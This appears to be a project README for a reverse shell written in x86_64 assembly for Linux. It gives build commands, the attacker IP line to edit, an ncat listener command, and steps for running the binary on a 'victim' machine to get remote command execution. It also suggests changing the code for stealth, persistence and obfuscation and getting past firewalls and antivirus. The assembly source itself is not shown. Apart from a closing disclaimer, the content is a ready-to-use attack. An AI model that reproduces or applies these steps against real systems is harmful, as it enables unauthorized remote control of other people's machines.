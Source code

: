 # Reverse Shell in x86_64 Assembly

## Overview
This project is a simple **reverse shell** written in **x86_64 Assembly** for **Linux**. It connects back to an attacker's machine, allowing remote command execution on the target system.

## Requirements
To use this reverse shell, you need the following:

- **Attacker's Machine** (Listening for the connection):
  - Install **Nmap** (includes `ncat`)
  - A terminal to run the `ncat` listener

- **Victim's Machine** (Executing the reverse shell):
  - Linux OS with support for x86_64 assembly
  - NASM (Netwide Assembler) for assembling the script
  - LD (GNU linker) to generate the final executable

## Setup
### 1. Edit the IP Address
Before compiling, update the script to reflect the attacker's IP address. Modify the following line:

```assembly
    at sin_addr,    dd 0x1E01A8C0   ; IP address of the attacker: 192.168.1.30 (little-endian)
```

To set your attacker's IP address, convert your **IPv4 address** into **little-endian** format and replace `0x1E01A8C0` accordingly. Example:

- If the attacker's IP is `192.168.1.30`, then in little-endian it is `0x1E01A8C0`.

## Compilation
Use **NASM** and **LD** to compile the script:

```bash
nasm -f elf64 reverse_shell.asm -o reverse_shell.o
ld reverse_shell.o -o reverse_shell
```

This will generate an executable named `reverse_shell`.

## Running the Reverse Shell
### 1. Start the Listener on the Attacker's Machine
On the **attacker's** machine, use `ncat` to listen for incoming connections:

```powershell
PS C:\Users\cedan> ncat -lvnp 12345
```

This command:
- `-l` (listen mode)
- `-v` (verbose mode)
- `-n` (numeric-only IP addresses, no DNS resolution)
- `-p 12345` (port 12345)

### 2. Execute the Reverse Shell on the Victim's Machine
On the **victim's** machine, run the compiled binary:

```bash
./reverse_shell
```

### 3. Gain Remote Shell Access
Once executed, you should receive a **shell session** on the **attacker's** machine via `ncat`.

You can now execute commands remotely on the victim's machine.

## Notes
- Ensure that **firewall rules** and **antivirus** do not block the connection.
- You may need `sudo` privileges on the victim's machine.
- Modify the script for stealth, persistence, or obfuscation if required.

## Disclaimer
This script is for **educational purposes only**. Unauthorized use of this script for malicious activities is illegal. Use it only in controlled environments or with proper authorization.

